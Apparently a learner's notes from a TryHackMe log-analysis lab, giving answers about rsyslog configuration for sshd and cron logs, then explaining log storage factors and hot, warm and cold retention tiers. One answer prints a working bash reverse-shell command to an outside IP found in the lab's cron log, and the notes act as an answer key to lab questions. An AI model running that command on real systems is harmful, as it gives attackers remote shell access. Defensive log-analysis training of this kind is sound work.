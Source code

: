 ![[Pasted image 20240715053112.png]]

**IMPORTANT:** If remote forwarding of logs is not configured, tools such as `scp` / `rsync`, among others, can be utilised for the manual collection of logs.

---

_After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?_

**stansimon**

![[Pasted image 20240715055701.png]]

_What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?_

**10.10.10.101**

![[Pasted image 20240715055811.png]]


_Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?_

**/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"**

![[Pasted image 20240715060027.png]]

---

# Storage, Retention, and Deletion

## Log Storage

Logs can be stored in various locations, such as the local system that generates them, a centralised repository, or cloud-based storage.

The choice of storage location typically depends on multiple factors:

|   |   |
|---|---|
|![All Green Operational Server](https://tryhackme-images.s3.amazonaws.com/user-uploads/63da722f2d207d0049da10b1/room-content/da93c2361ca46942723723d0d03454e8.svg)|- **Security Requirements:** Ensuring that logs are stored in compliance with organisational or regulatory security protocols.<br>- **Accessibility Needs:** How quickly and by whom the logs need to be accessed can influence the choice of storage.<br>- **Storage Capacity:** The volume of logs generated may require significant storage space, influencing the choice of storage solution.<br>- **Cost Considerations:** The budget for log storage may dictate the choice between cloud-based or local solutions.<br>- **Compliance Regulations:** Specific industry regulations governing log storage can affect the choice of storage.<br>- **Retention Policies:** The required retention time and ease of retrieval can affect the decision-making process.<br>- **Disaster Recovery Plans:** Ensuring the availability of logs even in system failure may require specific storage solutions.|

## Log Retention

It is vital to recognise that log storage is not infinite. Therefore, a reasonable balance between retaining logs for potential future needs and the storage cost is necessary. Understanding the concepts of Hot, Warm, and Cold storage can aid in this decision-making:

|                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |                                                                                                                                                              |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| - **Hot Storage:** Logs from the past **3-6 months** that are most accessible. Query speed should be near real-time, depending on the complexity of the query.<br>- **Warm Storage:** Logs from **six months to 2 years**, acting as a data lake, easily accessible but not as immediate as Hot storage.<br>- **Cold Storage:** Archived or compressed logs from **2-5 years**. These logs are not easily accessible and are usually used for retroactive analysis or scoping purposes. | ![Log Retention Calendar](https://tryhackme-images.s3.amazonaws.com/user-uploads/63da722f2d207d0049da10b1/room-content/ffc7ff68c1584d3c5ddf13b47c237c69.png) |

